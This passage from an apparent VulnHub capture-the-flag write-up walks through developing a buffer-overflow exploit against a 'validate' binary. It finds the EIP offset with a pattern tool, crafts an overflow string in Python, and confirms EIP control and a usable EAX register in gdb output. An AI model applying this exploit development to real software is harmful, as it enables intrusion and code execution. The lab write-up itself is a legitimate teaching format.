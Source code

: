 We can see that the EIP was overwritten with, 39644138, which we validated the location in the buffer string to be `116` using the `pattern_offset.rb` Metsplaoit Ruby module.

## Verify Control over EIP
To verify control over EIP, let's overwrite it with "ABCD." First we will create a new buffer string using a simple Python one-liner script as so,
```
python -c 'print "A" * 116 + "ABCD" + "B" * (200-116-4)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```
I chose the total size of 200 bytes simply to pad our overflow. We will need space for our NOP sled and shell code. Let's pass this as an argument to `validate` using the GNU Debugger like so,
```
root@attacker-machine:~# gdb validate
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Reading symbols from validate...done.
gdb-peda$ run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Starting program: /root/Penetration Testing/VulnHUB/Brainpan/files/validate AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd188 ('A' <repeats 117 times>, "BCD", 'B' <repeats 80 times>)
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd540 ("BBBBBBB")
EDX: 0xffffd249 ("BBBBBBB")
ESI: 0x2 
EDI: 0xf7fbd000 --> 0x1b2db0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd200 ('B' <repeats 80 times>)
EIP: 0x44434241 ('ABCD')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x44434241
[------------------------------------stack-------------------------------------]
0000| 0xffffd200 ('B' <repeats 80 times>)
0004| 0xffffd204 ('B' <repeats 76 times>)
0008| 0xffffd208 ('B' <repeats 72 times>)
0012| 0xffffd20c ('B' <repeats 68 times>)
0016| 0xffffd210 ('B' <repeats 64 times>)
0020| 0xffffd214 ('B' <repeats 60 times>)
0024| 0xffffd218 ('B' <repeats 56 times>)
0028| 0xffffd21c ('B' <repeats 52 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x44434241 in ?? ()
gdb-peda$ 
```
There's our chippy. We see that EIP is overwritten with, "ABCD" with the output line in GDB as: `EIP: 0x44434241 ('ABCD')`.
## Find a Register to Control
In the case of validate, we can overwrite the EAX register as shown in the GDB output above,
```
EAX: 0xffffd188 ('A' <repeats 117 times>, "BCD", 'B' <repeats 80 times>)
```